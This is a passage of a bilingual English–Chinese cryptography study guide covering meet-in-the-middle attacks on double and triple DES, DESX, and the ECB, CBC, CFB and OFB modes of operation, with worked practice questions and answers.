The cost is \(2\cdot2^{56}=2^{57}\) cipher operations and a table of \(2^{56}\) entries. At 8 bytes per entry the table is \(2^{59}\) bytes, that is 512 PiB. Naive search of both keys together would need \(2^{112}\) trials. Double DES is therefore barely stronger than single DES. Doubling AES-128 likewise gives about \(2^{129}\) operations, not \(2^{256}\).代价是 \(2\cdot2^{56}=2^{57}\) 次密码运算，以及一张 \(2^{56}\) 项的表。每项 8 字节，这张表就有 \(2^{59}\) 字节，即 512 PiB。把两把密钥合在一起做朴素搜索则需要 \(2^{112}\) 次尝试。因此双重 DES 的强度几乎不比单重 DES 高。同理，把 AES-128 加倍后，代价约为 \(2^{129}\) 次运算，而不是 \(2^{256}\) 次。
One pair does not fix the keys. There are \(2^{112}\) key pairs, and a given \(P\) maps to only \(2^{64}\) possible ciphertexts. About \(2^{112}/2^{64}=2^{48}\) key pairs therefore match \((P,C)\) by chance. These are the false alarms. A second pair cuts them to \(2^{48-64}=2^{-16}\).一个已知对并不能确定密钥。一共有 \(2^{112}\) 个密钥对，而某个 \(P\) 只映射到 \(2^{64}\) 种可能的密文。因此，大约有 \(2^{112}/2^{64}=2^{48}\) 个密钥对纯属偶然地与 \((P,C)\) 相符。这些就是误报。再加一个已知对，可以把它们减少到 \(2^{48-64}=2^{-16}\)。
Step 3: triple DES第 3 步：三重 DES
In words: 3DES = encrypt, decrypt, encrypt with two or three keys, so that the key space is large enough and old single-DES devices still work.用文字表述：3DES = 用两把或三把密钥依次加密、解密、加密，使密钥空间足够大，同时旧的单重 DES 设备仍能工作。
Triple DES（三重 DES, 3DES）uses three stages in the encrypt-decrypt-encrypt (EDE) order (part b of the figure).三重 DES（3DES）采用加密-解密-加密（EDE）的三个阶段（见图 b）。
Three-key 3DES also falls to meeting in the middle. The attacker enumerates \((K_1,K_2)\), which are \(2^{112}\) values, computes the middle value, and matches it against a table of \(D(K_3,C)\) with \(2^{56}\) entries. Its strength is 112 bits, not 168.三密钥 3DES 同样会被中间相遇攻击攻破。攻击者枚举 \((K_1,K_2)\)（共 \(2^{112}\) 个取值），计算中间值，并与一张有 \(2^{56}\) 项的 \(D(K_3,C)\) 表进行匹配。它的强度是 112 位，而不是 168 位。
Two-key 3DES has no practical attack, but two attacks show its weakness. Merkle–Hellman is a chosen-plaintext attack that needs \(2^{56}\) chosen pairs. Van Oorschot–Wiener is a known-plaintext attack. It guesses the output \(A\) of the first stage. A guess fits one pair with probability \(2^{-64}\), so \(n\) pairs need about \(2^{64}/n\) guesses. Each guess is followed by a double-DES-style attack of cost \(2^{56}\).两密钥 3DES 没有实际可行的攻击，但有两种攻击显示了它的弱点。Merkle–Hellman 是一种选择明文攻击，需要 \(2^{56}\) 个选定的明文对。Van Oorschot–Wiener 是一种已知明文攻击，它猜测第一阶段的输出 \(A\)。一次猜测与一个明文对吻合的概率为 \(2^{-64}\)，因此 \(n\) 个明文对大约需要 \(2^{64}/n\) 次猜测。每次猜测之后都要进行一次代价为 \(2^{56}\) 的双重 DES 式攻击。
NIST therefore recommends retiring two-key 3DES.因此 NIST 建议停用两密钥 3DES。
| Scheme方案 | Key bits密钥比特数 | Best known attack已知最佳攻击 | Work工作量 |
|---|---|---|---|
| DES | 56 | exhaustive search穷举搜索 | \(2^{55}\) on average |
| Double DES双重 DES | 112 | meet in the middle中间相遇 | \(2^{57}\) time, \(2^{56}\) memory |
| Two-key 3DES双密钥 3DES | 112 | known plaintext已知明文 | \(2^{120-\log_2n}\) |
| Three-key 3DES三密钥 3DES | 168 | meet in the middle中间相遇 | \(2^{112}\) time, \(2^{56}\) memory |
Practice练习
Q1. (Calculation) A block cipher has a 40-bit key and a 32-bit block. A message is double-encrypted with two independent keys. (a) State the time and memory of the meet-in-the-middle attack. (b) How many known plaintext–ciphertext pairs make the expected number of false key pairs drop below 1?Q1.（计算）某分组密码的密钥长为 40 比特，分组长为 32 比特。一条消息用两个独立密钥进行双重加密。（a）给出中间相遇攻击的时间与存储量。（b）需要多少个已知明文–密文对，才能使假密钥对的期望数量降到 1 以下？
Answer
(a) Encrypt \(P\) under all \(2^{40}\) values of \(K_1\) and store the results; decrypt \(C\) under all \(2^{40}\) values of \(K_2\) and look each result up. Time \(2\cdot2^{40}=2^{41}\) operations, memory \(2^{40}\) entries, instead of \(2^{80}\) trials.（a）用 \(K_1\) 的全部 \(2^{40}\) 个取值加密 \(P\) 并存储结果；用 \(K_2\) 的全部 \(2^{40}\) 个取值解密 \(C\)，并在表中查找每个结果。时间为 \(2\cdot2^{40}=2^{41}\) 次运算，存储为 \(2^{40}\) 个条目，而非 \(2^{80}\) 次尝试。
(b) After \(t\) pairs the expected number of false key pairs is \(2^{2k-tm}=2^{80-32t}\): \(2^{48}\) for \(t=1\), \(2^{16}\) for \(t=2\), \(2^{-16}\) for \(t=3\). Three pairs are needed, because \(t>2k/m=2.5\).（b）在 \(t\) 个明文对之后，假密钥对的期望数量为 \(2^{2k-tm}=2^{80-32t}\)：\(t=1\) 时为 \(2^{48}\)，\(t=2\) 时为 \(2^{16}\)，\(t=3\) 时为 \(2^{-16}\)。需要三个明文对，因为 \(t>2k/m=2.5\)。
思路：每多一对已知明密文，误报就除以 \(2^{m}\)。
Q2. (True or false) "Three-key 3DES provides 168 bits of security." Justify. What does an EDE device compute when \(K_1=K_2=K_3=K\)?Q2.（判断）“三密钥 3DES 提供 168 比特的安全性。”请判断并说明理由。当 \(K_1=K_2=K_3=K\) 时，EDE 设备计算的是什么？
Answer
False. The key has 168 bits, but a meet-in-the-middle attack enumerates \((K_1,K_2)\) (\(2^{112}\) values), computes the middle value and matches it against a table of \(D(K_3,C)\) (\(2^{56}\) entries). Time is about \(2^{112}\) and memory \(2^{56}\), so the strength is 112 bits. With equal keys \(E(K,D(K,E(K,P)))=E(K,P)\), because the inner \(E\) and \(D\) cancel: the device behaves as single DES, which is why the middle step is a decryption.错误。密钥有 168 比特，但中间相遇攻击只需枚举 \((K_1,K_2)\)（\(2^{112}\) 个取值），计算中间值，并将其与一张含 \(D(K_3,C)\)（\(2^{56}\) 个条目）的表进行匹配。其时间约为 \(2^{112}\)，存储量为 \(2^{56}\)，因此强度为 112 比特。当密钥相等时，\(E(K,D(K,E(K,P)))=E(K,P)\)，因为内层的 \(E\) 与 \(D\) 相互抵消：该设备表现为单 DES，这也正是中间一步为解密的原因。
易错：EDE 的中间一步用解密只是为了兼容单重 DES，没有密码学意义。
Q3. (Beyond the pages: key whitening) DESX encrypts \(c=k_1\oplus\mathrm{DES}(k_2,m\oplus k_3)\) with \(|k_1|=|k_3|=64\) and \(|k_2|=56\) bits, so it has 184 key bits. Show that exhaustive key search costs only about \(2^{120}\) when three plaintext–ciphertext pairs \((m_i,c_i)\) are known.Q3.（教材之外：密钥白化）DESX 对 \(c=k_1\oplus\mathrm{DES}(k_2,m\oplus k_3)\) 的加密使用 \(|k_1|=|k_3|=64\) 与 \(|k_2|=56\) 比特的密钥，因此其密钥长度为 184 比特。证明：当已知三个明文–密文对 \((m_i,c_i)\) 时，穷举密钥搜索的代价仅约为 \(2^{120}\)。
Answer
Guess \((k_1,k_2)\): there are \(2^{64+56}=2^{120}\) guesses. Pair 1 then determines the third key with one decryption, \(k_3=m_1\oplus\mathrm{DES}^{-1}(k_2,c_1\oplus k_1)\). Check pairs 2 and 3 with \(c_i=k_1\oplus\mathrm{DES}(k_2,m_i\oplus k_3)\). A wrong guess passes one check with probability \(2^{-64}\), so the expected number of false keys is \(2^{120}\cdot2^{-128}=2^{-8}\) and the true key is unique. The cost is about \(2^{120}\) DES operations, not \(2^{184}\): \(k_3\) is solved for rather than searched, so only \(k_1\) (64 bits) adds to the 56 bits of \(k_2\).对 \((k_1,k_2)\) 的猜测：共 \(2^{64+56}=2^{120}\) 种。随后，明文对 1 通过一次解密即可确定第三个密钥 \(k_3=m_1\oplus\mathrm{DES}^{-1}(k_2,c_1\oplus k_1)\)。用 \(c_i=k_1\oplus\mathrm{DES}(k_2,m_i\oplus k_3)\) 检验明文对 2 与 3。错误的猜测通过一次检验的概率为 \(2^{-64}\)，因此假密钥的期望数量为 \(2^{120}\cdot2^{-128}=2^{-8}\)，真实密钥是唯一的。其代价约为 \(2^{120}\) 次 DES 运算，而非 \(2^{184}\)：\(k_3\) 是通过求解得到的，而不是搜索得到的，因此只有 \(k_1\)（64 比特）叠加在 \(k_2\) 的 56 比特之上。
思路：先猜 \((k_1,k_2)\)，由第一对明密文直接解出 \(k_3\)，其余对用来验证。
Block Cipher Modes of Operation and ECB ★★★分组密码工作模式与 ECB
Goal. Say what a mode of operation is and by which criteria modes are compared. Explain ECB and show what an attacker can do against it.目标。 说明什么是工作模式，以及比较各模式所依据的准则。解释 ECB，并说明攻击者能对它做什么。
Step 1: what a mode is第 1 步：什么是工作模式
In words: a mode of operation = a rule that says how many blocks are chained together when a long message is encrypted with a block cipher.用文字表述：工作模式 = 用分组密码加密长消息时，规定各分组如何链接在一起的规则。
A mode of operation（工作模式）defines how the blocks of a message are processed. NIST SP 800-38A defines five modes for any block cipher: ECB, CBC, CFB, OFB and CTR. Later modes add authentication (CMAC, CCM, GCM; Chapter 12). Modes are compared by five criteria.工作模式规定如何处理消息的各个分组。NIST SP 800-38A 为任何分组密码定义了五种模式：ECB、CBC、CFB、OFB 和 CTR。后来的模式增加了认证功能（CMAC、CCM、GCM；见第 12 章）。各模式按五项准则进行比较。
- Overhead: the extra operations compared with ECB.开销：与 ECB 相比额外增加的运算。
- Error recovery: a transmission error in ciphertext block \(i\) damages only a few plaintext blocks, after which the mode resynchronizes.错误恢复：密文分组 \(i\) 中的传输错误只会损坏少数几个明文分组，此后模式重新同步。
- Error propagation: an error in ciphertext block \(i\) damages block \(i\) and all later plaintext blocks.错误传播：密文分组 \(i\) 中的错误会损坏分组 \(i\) 以及此后所有的明文分组。
- Diffusion: how far the plaintext statistics, such as repeated blocks, show in the ciphertext.扩散：明文的统计特征，例如重复的分组，在密文中能看出多少。
- Security: whether ciphertext blocks leak information about plaintext blocks.安全性：密文分组是否泄露关于明文分组的信息。
Step 2: electronic codebook (ECB)第 2 步：电子密码本（ECB）
In words: ECB = every block is encrypted on its own with the same key, like looking up each block in a codebook.用文字表述：ECB = 每个分组单独用同一把密钥加密，就像在密码本中逐个查找每个分组。
In electronic codebook (ECB) mode（电子密码本模式）each block is encrypted independently under the same key. For a fixed key the cipher is a table of \(2^b\) entries that maps plaintext blocks to ciphertext blocks.在 电子密码本（ECB）模式中，每个分组都在同一把密钥下独立加密。对于固定的密钥，这种密码就是一张有 \(2^b\) 项的表，把明文分组映射为密文分组。


Properties of ECB:ECB 的特点：
- Equal plaintext blocks give equal ciphertext blocks, so repetitions and fixed fields stay visible.相同的明文分组得到相同的密文分组，因此重复内容和固定字段都会保持可见。
- Blocks can be deleted, repeated or swapped without the key.无需密钥即可删除、重复或交换分组。
- Encryption and decryption are parallel and random-access.加密和解密都可以并行，并支持随机访问。
- A damaged ciphertext block garbles only its own plaintext block.一个被破坏的密文分组只会使它自己对应的明文分组变成乱码。
- The last block is padded.最后一个分组进行填充。
ECB suits only a message shorter than one block, such as a key being encrypted. For longer data it is insecure.ECB 只适用于短于一个分组的消息，例如对一把密钥进行加密。对于更长的数据，它是不安全的。
Practice练习
Q1. (Scenario) A bank sends records of two AES blocks in ECB mode: block 1 is the payee account, block 2 is the amount. The attacker does not know the key but can capture and inject ciphertext. What can the attacker do?Q1.（情景分析）某银行以 ECB 模式发送由两个 AES 分组组成的记录：分组 1 为收款账户，分组 2 为金额。攻击者不知道密钥，但能够截获并注入密文。攻击者能做什么？
Answer
Each block is encrypted independently and deterministically, so the attacker can (i) replace the payee block of a record by the payee block of his own account taken from another captured record, leaving the amount; (ii) replay or swap amount blocks; (iii) see which records share a payee or an amount, because equal plaintext blocks give equal ciphertext blocks. The receiver decrypts every forged block validly. Chaining (CBC) would garble the block after a change, but only a MAC or authenticated encryption (Chapter 12) detects tampering.每个分组都是独立且确定性地加密的，因此攻击者可以：（i）用从另一条已截获记录中取得的、攻击者自己账户的收款账户分组，替换某条记录中的收款账户分组，而保留金额不变；（ii）重放或交换金额分组；（iii）看出哪些记录具有相同的收款账户或相同的金额，因为相同的明文分组会得到相同的密文分组。接收方会把每个伪造的分组都正常解密。链接模式（CBC）会在修改之后使相应分组被破坏，但只有 MAC 或认证加密（第 12 章）才能检测篡改。
Q2. (Proof) Show that a deterministic, stateless encryption of multi-block messages, such as ECB, cannot be secure. What must the encryption add?Q2.（证明）证明对多分组消息进行的确定性、无状态加密（如 ECB）不可能是安全的。加密方案必须增加什么？
Answer
Let the adversary choose \(m_0=(X,X)\) and \(m_1=(X,Y)\) with \(X\ne Y\) and receive the encryption of one of them. In ECB the two ciphertext blocks are equal exactly when \(m_0\) was encrypted, so the adversary identifies the message with probability 1. In general, determinism reveals whether the same message (or the same block in the same position) is sent twice. Secure encryption of several blocks therefore needs randomization or state: an IV or nonce that differs for every message, as in CBC, CFB, OFB and CTR.设敌手选择 \(m_0=(X,X)\) 与 \(m_1=(X,Y)\)，满足 \(X\ne Y\)，并获得其中一个消息的加密结果。在 ECB 中，只有当加密的是 \(m_0\) 时，两个密文分组才会相等，因此敌手能以概率 1 确定该消息。一般而言，确定性加密会暴露同一消息（或同一位置的同一分组）是否被重复发送。因此，对多个分组进行安全加密需要随机化或状态：即对每条消息都不同的 IV 或一次性随机数，如 CBC、CFB、OFB 与 CTR 中那样。
思路：确定性加密 = 相同输入必得相同输出，攻击者只需比较密文即可区分。
Chaining Modes: CBC and CFB ★★★链接模式：CBC 与 CFB
Goal. Write the equations of CBC and CFB, encrypt and decrypt a small example by hand, state the IV rule and trace how a bit error spreads.目标。 写出 CBC 和 CFB 的公式，手工完成一个小例子的加密和解密，说明 IV 规则，并追踪一个位错误如何扩散。
Step 1: cipher block chaining (CBC)第 1 步：密码分组链接（CBC）
In words: CBC = XOR each plaintext block with the previous ciphertext block, then encrypt; the first block uses the IV.用文字表述：CBC = 每个明文分组先与前一个密文分组异或，再加密；第一个分组使用 IV。
Cipher block chaining (CBC) mode（密码分组链接模式）uses one key. Each ciphertext block depends on all earlier plaintext blocks, so repeated plaintext blocks no longer give repeated ciphertext.密码分组链接（CBC）模式只使用一把密钥。每个密文分组都依赖于之前的全部明文分组，因此重复的明文分组不再得到重复的密文。


Properties of CBC:CBC 的特点：
- Padding and IV. The last block is padded. The IV has one block length and is sent with the ciphertext.填充与 IV。最后一个分组进行填充。IV 的长度为一个分组，并与密文一同发送。
- Parallelism. Encryption is sequential, because \(C_j\) needs \(C_{j-1}\). Decryption is parallel and random-access, because \(P_j\) needs only \(C_j\) and \(C_{j-1}\).并行性。 加密是顺序进行的，因为 \(C_j\) 需要 \(C_{j-1}\)。解密可以并行，并支持随机访问，因为 \(P_j\) 只需要 \(C_j\) 和 \(C_{j-1}\)。
- Errors. A bit error in \(C_j\) garbles \(P_j\) completely and flips the same bit in \(P_{j+1}\). Later blocks are correct, so the mode recovers after two blocks.错误。 \(C_j\) 中的一位错误会使 \(P_j\) 完全变成乱码，并使 \(P_{j+1}\) 中同一位翻转。之后的分组都是正确的，因此两个分组之后模式即可恢复。
- Error at the sender. A bit error in \(P_j\) before encryption changes all later ciphertext blocks. The receiver still decrypts every other plaintext block correctly.发送端的错误。 \(P_j\) 在加密之前出现一位错误，会改变之后所有的密文分组。接收方的其余明文分组都能正确解密。
- IV rule. The IV must be known to both parties and unpredictable to an adversary. Use a random IV, or the encryption of a nonce.IV 规则。 IV 必须让双方都知道，但对攻击者不可预测。应使用随机的 IV，或使用一次性随机数的加密结果。
- Constant IV. It makes encryption deterministic: two messages with the same first \(t\) blocks give the same first \(t\) ciphertext blocks.常数 IV。 它使加密变得确定：开头的 \(t\) 个分组相同的两条消息，会得到相同的前 \(t\) 个密文分组。
- IV integrity. If an opponent changes the IV by \(\Delta\), the first plaintext block changes by the same \(\Delta\), because \(P_1=\mathrm{IV}\oplus D(K,C_1)\).IV 的完整性。 若对手把 IV 改动 \(\Delta\)，第一个明文分组会以相同的 \(\Delta\) 发生改变，因为 \(P_1=\mathrm{IV}\oplus D(K,C_1)\)。
A predictable IV also allows a guess test. If the next IV is known before the attacker submits his plaintext, he can make the cipher input equal an earlier input and compare the outputs.可预测的 IV 还会让攻击者能做猜测检验。如果在攻击者提交明文之前就已知下一个 IV，他就能让密码输入与某个早先的输入相等，然后比较输出。
Step 2: cipher feedback (CFB)第 2 步：密文反馈（CFB）
In words: CFB = encrypt a shift register, use the first \(s\) bits of the result as a keystream for the next \(s\) bits of data, and shift the new ciphertext into the register.用文字表述：CFB = 加密一个移位寄存器，取结果的前 \(s\) 位作为下一段 \(s\) 位数据的密钥流，并把新的密文移入寄存器。
Cipher feedback (CFB) mode（密文反馈模式）turns a block cipher into a stream cipher（流密码）. It works on segments of \(s\) bits (\(s=8\) is common). It needs no padding, can send each character at once, and the ciphertext has the length of the plaintext. A shift register of \(b\) bits starts as the IV.密文反馈（CFB）模式把分组密码变成流密码。它按 \(s\) 位的分段工作（\(s=8\) 是常见取值）。它不需要填充，可以每次发送一个字符，而且密文与明文等长。寄存器的初始值为 IV，长 \(b\) 位。


Both directions compute the keystream segment with \(E\). Decryption only undoes an XOR, so the decryption function \(D\) is never needed. OFB and CTR work the same way.加密和解密两个方向都用 \(E\) 计算密钥流分段。解密只是撤销一次异或，因此从来不需要解密函数 \(D\)。OFB 和 CTR 的工作方式也相同。
Properties of CFB:CFB 的特点：
- Encryption is sequential. Decryption can be parallel, because each register value is built from known ciphertext.加密是顺序进行的。解密可以并行，因为每个寄存器值都由已知的密文构造出来。
- One cipher call is needed per \(s\) bits, so for \(s<b\) it is \(b/s\) times slower than CBC.每 \(s\) 位需要调用一次密码，因此对于 \(s<b\)，它比 CBC 慢 \(b/s\) 倍。
- Unlike a typical stream cipher, the keystream depends on the plaintext through the ciphertext.与典型的流密码不同，这里的密钥流通过密文依赖于明文。
- The IV must be unpredictable.IV 必须不可预测。
- A bit error in \(C_j\) flips the same bit of \(P_j\). The bad segment then stays in the register for \(b/s\) steps and garbles the next \(b/s\) segments. After that the mode resynchronizes.\(C_j\) 中的一位错误会使 \(P_j\) 中同一位翻转。出错的分段随后会在寄存器中停留 \(b/s\) 步，并使接下来的 \(b/s\) 个分段变成乱码。之后，这种模式会重新同步。
Practice练习
Q1. (Error propagation) CBC encrypts blocks \(P_1,\dots,P_N\). (a) The transmitted \(C_1\) contains a bit error. Which plaintext blocks are affected? (b) The source block \(P_1\) has a bit error before encryption. How far does it propagate, and what does the receiver obtain?Q1.（错误传播）CBC 对分组 \(P_1,\dots,P_N\) 进行加密。（a）传输的 \(C_1\) 中存在一个比特错误，哪些明文分组受到影响？（b）源分组 \(P_1\) 在加密前存在一个比特错误，它会传播到多远？接收方得到的是什么？
Answer
(a) \(P_1=D(K,C_1)\oplus\mathrm{IV}\) is garbled completely, and \(P_2=D(K,C_2)\oplus C_1\) has the same bit flipped. \(P_3=D(K,C_3)\oplus C_2\) uses only correct values, so no block beyond \(P_2\) is affected.（a）\(P_1=D(K,C_1)\oplus\mathrm{IV}\) 被完全破坏，\(P_2=D(K,C_2)\oplus C_1\) 中同一比特被翻转。\(P_3=D(K,C_3)\oplus C_2\) 只使用正确的值，因此超出 \(P_2\) 的分组都不受影响。
(b) \(C_1=E(K,P_1\oplus\mathrm{IV})\) changes, hence \(C_2=E(K,P_2\oplus C_1)\) and every later ciphertext block change: the error spreads through all following ciphertext blocks. The receiver, however, decrypts every received block correctly, because the changed \(C_1\) that was sent cancels in \(P_2=D(K,C_2)\oplus C_1\). Only \(P_1\) is wrong, and it equals the erroneous source block.（b）\(C_1=E(K,P_1\oplus\mathrm{IV})\) 发生改变，因此 \(C_2=E(K,P_2\oplus C_1)\) 以及此后的每个密文分组都会改变：错误会扩散到所有后续密文分组中。然而，接收方对每个收到的分组的解密都是正确的，因为所发送的、已改变的 \(C_1\) 在 \(P_2=D(K,C_2)\oplus C_1\) 中被抵消。只有 \(P_1\) 是错误的，且它等于出错的源分组。
易错：接收端的密文错误只影响本块和下一块，不是后面所有块。
Q2. (Calculation) DES in CFB mode with \(s=8\): ciphertext byte \(C_5\) has a bit error. Which plaintext bytes are damaged and how? Repeat for AES (\(b=128\), \(s=8\)) and for DES with \(s=1\).Q2.（计算）采用 \(s=8\) 的 CFB 模式 DES：密文字节 \(C_5\) 出现一个比特错误。哪些明文字节受损，以何种方式受损？对 AES（\(b=128\)，\(s=8\)）以及采用 \(s=1\) 的 DES 重复上述计算。
Answer
\(P_5\) has the same bit flipped. \(C_5\) enters the 64-bit register and stays there for \(b/s=8\) shifts, so \(P_6,\dots,P_{13}\) are garbled; \(P_{14}\) onward are correct. Damaged: \(1+b/s=9\) bytes. For AES with \(s=8\): \(1+16=17\) bytes (\(P_5,\dots,P_{21}\)). For DES with \(s=1\): \(1+64=65\) bits.\(P_5\) 中同一比特被翻转。\(C_5\) 进入 64 比特寄存器，并在其中停留 \(b/s=8\) 次移位，因此 \(P_6,\dots,P_{13}\) 个段被破坏；\(P_{14}\) 及之后的段均正确。受损：\(1+b/s=9\) 字节。对于采用 \(s=8\) 的 AES：\(1+16=17\) 个字节（\(P_5,\dots,P_{21}\)）。对于采用 \(s=1\) 的 DES：\(1+64=65\) 比特。
Stream-Like Modes: OFB and CTR ★★★类流模式：OFB 与 CTR
Goal. Write the equations of OFB and CTR, explain why a repeated nonce or counter breaks them, and list the advantages of CTR.目标。 写出 OFB 和 CTR 的公式，解释为什么重复的一次性随机数或计数器会破坏它们，并列出 CTR 的优点。
Step 1: output feedback (OFB)第 1 步：输出反馈（OFB）
In words: OFB = encrypt the nonce again and again to make a keystream, and XOR it with the data.用文字表述：OFB = 反复加密一次性随机数以生成密钥流，再与数据异或。
Output feedback (OFB) mode（输出反馈模式）resembles CFB, but the cipher's own output is fed back into the input and full blocks are used. The keystream depends only on the key and the nonce, never on the data.输出反馈（OFB）模式与 CFB 相似，但密码本身的输出会反馈到输入中，并且使用完整的分组。密钥流只取决于密钥和一次性随机数，从不取决于数据。


Properties of OFB:OFB 的特点：
- The nonce must be unique for each message under the same key. With the same keystream, \(C\oplus C'=P\oplus P'\), and a known plaintext reveals the other.在同一把密钥下，每条消息的一次性随机数必须唯一。两条消息使用相同的密钥流时 \(C\oplus C'=P\oplus P'\)，因此已知一个明文就能推出另一个。
- A bit error in \(C_j\) flips only the same bit of \(P_j\). There is no error propagation.\(C_j\) 中的一位错误只会使 \(P_j\) 中同一位翻转。不存在错误传播。
